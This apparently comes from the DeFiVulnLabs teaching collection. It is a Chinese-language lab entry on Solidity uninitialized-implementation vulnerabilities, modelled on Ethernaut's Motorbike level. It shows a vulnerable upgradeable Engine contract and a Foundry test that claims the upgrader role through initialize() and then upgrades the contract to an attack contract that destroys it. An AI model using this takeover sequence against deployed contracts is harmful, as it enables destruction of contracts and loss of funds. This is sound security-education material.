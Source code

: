 # 未初始化的状态变量  
[Uninitialized_variables.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Uninitialized_variables.sol)  
**名称：** 未初始化的变量漏洞  

**描述：**   
未初始化的本地存储变量可能包含合约中其他存储变量的值；  
这可能导致意外的漏洞，或者被有意地利用。  


**参考：**   
https://blog.dixitaditya.com/ethernaut-level-25-motorbike  


**合约：**  
```
contract Engine is Initializable {
    //“eip1967.proxy.implementation”的keccak-256哈希值减1
    bytes32 internal constant _IMPLEMENTATION_SLOT =
        0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    address public upgrader;
    uint256 public horsePower;

    struct AddressSlot {
        address value;
    }

    function initialize() external initializer {
        horsePower = 1000;
        upgrader = msg.sender;
    }

    //将代理的实现升级为 `newImplementation`
    // 随后执行函数调用
    function upgradeToAndCall(
        address newImplementation,
        bytes memory data
    ) external payable {
        _authorizeUpgrade();
        _upgradeToAndCall(newImplementation, data);
    }
```  

**如何测试：**  
forge test --contracts src/test/Uninitialized_variables.sol -vvvv  
```
// 用于测试未初始化的合约的漏洞。
function testUninitialized() public {
    // 创建了一个新的Engine和Motorbike合约实例
    // Motorbike 合约的构造函数接受 EngineContract 的地址作为参数。
    EngineContract = new Engine();
    MotorbikeContract = new Motorbike(address(EngineContract));

    // 创建Attack合约的实例
    AttackContract = new Attack();

    // 打印EngineContract的upgrader。由于EngineContract 尚未初始化，upgrader可能是零地址
    console.log("Uninitialized Upgrader:", EngineContract.upgrader());

    // 调用EngineContract的‘initialize()’函数
    // 由于EngineContract没有初始化，调用此函数人将成为“upgrader”
    address(EngineContract).call(abi.encodeWithSignature("initialize()"));

    // 打印EngineContract的upgrader。现在，它将是调用“initialize()”的地址
    console.log("Initialized Upgrader:", EngineContract.upgrader());

    // 将代理（EngineContract）的实现升级为恶意合约（AttackContract）并调用‘attack()’
    bytes memory initEncoded = abi.encodeWithSignature("attack()");
    address(EngineContract).call(
        abi.encodeWithSignature(
            "upgradeToAndCall(address,bytes)",
            address(AttackContract),
            initEncoded
        )
    );

    // 打印“攻击完成”
    console.log("Exploit completed");

    //由于EngineContract被‘attack()’破坏，因此下一次调用将失败。
    console.log("Since EngineContract destroyed, next call will fail.");
    address(EngineContract).call(
        abi.encodeWithSignature(
            "upgradeToAndCall(address,bytes)",
            address(AttackContract),
            initEncoded
        )
    );
}
``` 
**红框：** 通过初始化改变逻辑合约  
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F75026e7d-93b6-4bd0-a860-aa12ac7f73ba%2FUntitled.png?table=block&id=111b15dd-4e6d-4a9d-85fc-b4a6a1397d0b&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)
